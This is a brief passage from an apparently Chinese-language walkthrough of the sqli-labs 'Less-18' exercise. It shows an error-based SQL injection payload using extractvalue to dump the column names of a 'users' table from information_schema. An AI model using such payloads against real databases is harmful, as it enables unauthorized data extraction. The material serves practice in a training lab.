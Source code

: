 爆表出错，不知道什么原因



+ 爆列名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e)) and '
~~~

![Less-18_15](./img/Less-18_15.PNG)
